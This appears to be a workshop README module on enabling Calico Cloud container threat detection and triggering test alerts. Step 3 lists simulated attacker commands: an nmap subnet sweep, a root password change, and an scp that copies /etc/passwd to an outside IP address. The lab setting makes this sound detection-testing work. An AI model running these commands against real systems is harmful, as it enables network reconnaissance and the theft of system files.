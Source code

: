 # Module 4 - Zero-Day Attacks Detection with Threat Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. If it is not enabled, you will see a page like this:

   ![enable](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/54014c62-cbef-4718-93fa-75390febb88a)

   Click on the Enable Container Threat Detection button, and you will see the following page:

   ![running](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/42906ad6-ced1-40a8-b817-4a4b5c740d08)

   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

3. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if it's the case.).

   ```bash
   apk update
   apk add nmap
   nmap -sn $(hostname -i)/24
   ```

   Wait a minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events`.

   Optionally, you can also try the following;

   ```bash
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```

   Wait another minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events` again.

   You should be able to see the following security events:

   ![security_events](https://github.com/tigera-solutions/cc-aks-implement-runtime-security/assets/104035488/612893b6-7a46-487d-bb4d-bc9876c5d302)

---

[:arrow_right: Module 5 - Quarantine Infected Workloads and Visualize KSPM](/mod/module-5-quarantine-kspm.md)  <br>

[:arrow_left: Module 3 - Configuring the Workload-Centric WAF](/mod/module-3-waf.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
